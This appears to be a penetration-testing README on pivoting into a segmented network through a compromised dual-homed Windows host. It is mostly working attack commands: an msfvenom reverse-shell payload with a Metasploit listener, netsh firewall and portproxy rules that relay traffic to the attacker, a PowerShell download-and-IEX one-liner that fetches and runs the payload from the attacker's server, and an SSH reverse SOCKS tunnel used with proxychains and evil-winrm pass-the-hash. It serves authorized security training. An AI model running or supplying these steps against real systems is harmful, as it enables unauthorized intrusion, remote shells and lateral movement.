

## Reverse SSH Tunnel Method
As a penetration tester, you are expected to know how to pivot between hosts even when they reside on segmented networks. Segmented hosts are typically in-scope and often engagement target(s). The following example examines one method to accomplish segmented network pivoting via a dual-homed server compromised by the attacker without writing any third-party tools to disk.
***
### Simplified Segmented Network


### Simplified Segmented Network Details
The following are the relevant example details:
```plaintext
Attacker IP:
	192.168.75.85

Dual-Homed Compromised Host (Windows x64) IPs:
	192.168.200.200
	10.10.1.200

Target Internal Client (Windows x64) IP:
	10.10.1.50

Intended Pivot:
	192.168.75.85 -> 192.168.200.200 -> 10.10.1.50

Additional Route Details:
	192.168.75.85 -> 10.10.1.50 = No Route To Host
	10.10.1.50 -> 192.168.75.85 = No Route To Host
```

### Assumptions
1. Dual-Homed Compromised Host is already compromised by the attacker
2. The attacker has escalated their privileges to Administrator, SYSTEM, or equivalent
3. Interaction via RDP, WinRM, webshell, xp_cmdshell, etc., with Target Internal Client is already direct possible via session (RDP or otherwise) on Dual-Homed Compromised Host.
4. The unaltered MSFVenom payload is sufficient to bypass defenses such as AMSI and Defender. During real engagements default payloads like this should not be used. For the purposes of simplifying this example, we assume the payload will execute properly.
---
### Step-By-Step Instructions For Pivot
1. (Kali) Make payload and place in apache default webroot. Note that the IP address in the command belongs to the Dual-Homed Compromised Host. In a later step we configure the Dual-Homed Compromised Host to forward the shell traffic to the attacker's Kali host.
```zsh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.1.200 LPORT=8669 -f psh -o /var/www/html/win-x64-8669.txt;
```
2. (Kali) Start apache2 to host payload
```zsh
sudo service apache2 start;
```
3. (Kali) Start MSFConsole's multi/handler to receive callback shell
```zsh
msfconsole -q -x "use multi/handler; set PAYLOAD windows/x64/shell_reverse_tcp; set LHOST tun0; set LPORT 8669; set ExitOnSession false; exploit -j";
```
4. (Compromised Host) Open up TCP port 4422. Used to reach the attacker on port 80 to download payload
```powershell
netsh advfirewall firewall add rule name="TCP Port 4422 Allow In" dir=in action=allow protocol=TCP localport=4422;
```
5. (Compromised Host) Redirect TCP traffic received on 4422 (listening on internal 10.10.1.200) and redirect it to attacker at 192.168.75.85 port 80
```powershell
netsh interface portproxy add v4tov4 listenport=4422 listenaddress=10.10.1.200 connectport=80 connectaddress=192.168.75.85;
```
6. (Compromised Host) Open up TCP port 8669. Used to reach the attacker on port 8669 for callback shell
```powershell
netsh advfirewall firewall add rule name="TCP Port 8669 Allow In" dir=in action=allow protocol=TCP localport=8669;
```
7. (Compromised Host) Redirect TCP traffic received on 8669 (listening on internal 10.10.1.200) and redirect it to attacker at 192.168.75.85 port 8669
```powershell
netsh interface portproxy add v4tov4 listenport=8669 listenaddress=10.10.1.200 connectport=8669 connectaddress=192.168.75.85;
```
8. Using exploit, RDP / WinRM / other connection from compromised host to target internal host, download "win-x64-8669.txt" from attacker. Note that the IP address used is the compromised host and the port (4422) is the one redirected to the attacker at 192.168.75.85 port 80
```powershell
powershell -ep bypass -c "(New-Object System.Net.WebClient).DownloadString('http://10.10.1.200:4422/win-x64-8669.txt') | IEX"
```
9. Receive remote shell in MSFConsole
***
***
### Additional Pivoting Option via Reverse SSH Tunnel
In some cases, you will want to have a socket opened on the Compromised Dual-Homed Host for your tools, such as CrackMapExec, Evil-WinRM, SQLMap, etc., to tunnel through. Doing so allows your local tools to work with proxychains to reach and target otherwise unreachable hosts on segmented networks. To make this socket, we can use the SSH client on the compromised host SSH into our Kali machine and open a socket locally (on Kali) that we can pivot through.

Before continuing, first ensure you have proxychains4 setup:
```zsh
sudo apt update
sudo apt install proxychains4
```

#### Step-By-Step Instructions For SSH Reverse Tunnel
1. Create a new Kali user and ensure they are allowed to SSH into your instance. (Alternatively, use the provided script named `generate-ssh-user.sh` to create, and delete when finished with the `--clean` flag, temporary ssh users.)
2. Using PowerShell on the Compromised Dual-Homed Host, SSH into your Kali machine using the following command (only use the "-i" option if you are using an identity file for SSH authentication to your Kali machine and have placed this file on the Compromised Host):
```zsh
ssh -R 1080 <generated_user>@<kali_IP_address> -i <file_path_to_private_identity_file_if_using_one>
```
3. Ensure your `/etc/proxychains4.conf` has `socks5 127.0.0.1 1080` under `[ProxyList]`. An example of a working `proxychains4.conf` file, with all comments removed, is shown below:
```plaintext
strict_chain
proxy_dns
remote_dns_subnet 224
tcp_read_time_out 15000
tcp_connect_time_out 8000
[ProxyList]
socks5 127.0.0.1 1080
```
4. Using proxychains, you can now reach any host the Compromised Host can reach as long as the SSH session to your Kali machine remains intact. The following is an example command you could use to obtain a remote shell directly from Kali if WinRM is enabled on the Target Internal Client (10.10.1.50) and you have the local Administrator password hash, which is `ddce269a1e3d054cae349621c198dd52` in this example. (Note that the `-q` flag suppresses proxychains output but is not required)
```zsh
proxychains -q evil-winrm -i 10.10.1.50 -u Administrator -H ddce269a1e3d054cae349621c198dd52
```
